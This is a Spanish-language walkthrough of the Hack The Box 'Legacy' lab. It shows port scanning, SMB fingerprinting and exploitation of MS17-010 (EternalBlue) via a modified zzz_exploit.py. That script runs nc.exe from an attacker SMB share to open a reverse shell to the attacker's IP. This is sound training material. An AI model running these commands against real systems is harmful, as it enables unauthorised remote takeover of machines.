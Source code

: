 # Hack The Box - Legacy


## Exploración

Todos los puertos, rapido y silencioso
<pre>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.4 -oG allPorts
</pre>
 
Puertos especificos
<pre>
nmap -sCV -p139,445 10.10.10.4 -oN targeted


Como parece que SMB está activo podemos averiguar el tipo de maquina con:
<pre>
crackmapexec smb 10.10.10.4

SMB         10.10.10.4      445    LEGACY           [*] Windows 5.1 (name:LEGACY) (domain:legacy) (signing:False) (SMBv1:True)
</pre>

El targeted nos indica que es un XP.
Probamos entonces el zzz de EthernalBlue
<pre>
git clone https://github.com/worawit/MS17-010
</pre>

Probamos con checker.py y modificamos el zzz_exploit.py poniendo esto donde encontramos CMD
<pre>
service_exec(conn, r'cmd /c \\10.10.14.54\smbFolder\nc.exe -e cmd 10.10.14.54 443')
</pre>

Localizamos nc y lo copiamos en nuestro directorio.

Abrimos servidor smb:
<pre>
impacket-smbserver smbFolder $(pwd) -smb2support
</pre>

Y en otra consola nos ponemos a la escucha:
<pre>
nc -nlvp 443
</pre>

En la primera consola ejecutamos el exploit:

<pre>
python2 zzz_exploit.py 10.10.10.4 spoolss
</pre>

Se entra ya con usuario administrador. No hay que escalar privilegios.

